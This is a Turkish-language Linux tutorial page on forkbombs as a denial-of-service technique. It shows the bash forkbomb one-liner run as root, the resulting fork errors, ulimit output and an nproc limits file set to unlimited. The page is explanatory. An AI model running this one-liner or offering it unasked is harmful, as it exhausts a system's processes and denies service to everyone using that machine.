 # Forkbomb

Bu bölüm boyunca gördüğümüz file descriptor'lar, pipeline mekanizması ve bir kullanıcının limitlerinin kötüye kullanımı sayesinde, basit bir takım işlemlerle sistemin kaynaklarını tüketip, başka işlemlere cevap vermesinin engellenmes, kısacası Denial of Service (DoS) durumuna düşmesi sağlanabilir. Forkbomb adı verilen bu teknik, sistem üzerindeki işlemlerin fork'larının oluşturulmasına izin veren bütün platform ve programlama dillerinde gerçekleştirilebilir.

```
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: Resource temporarily unavailable
-bash: fork: retry: No child processes
```

```
[root@thompson ~]# :(){ :|:& };:
[1] 21369
[root@thompson ~]#
```

```
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes
-bash: fork: retry: No child processes

[1]+  Done                    : | :
[root@thompson ~]#
```

![](../.gitbook/assets/Selection\_076.png)

```
[emre@thompson ~]$ ulimit -aS
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 3884
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) unlimited
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
```

```
[emre@thompson ~]$ cat /etc/security/limits.d/20-nproc.conf 
# Default limit for number of user's processes to prevent
# accidental fork bombs.
# See rhbz #432903 for reasoning.

#*          soft    nproc     4096
#root       soft    nproc     unlimited
emre        hard    nproc     unlimited
emre        soft    nproc     unlimited
```
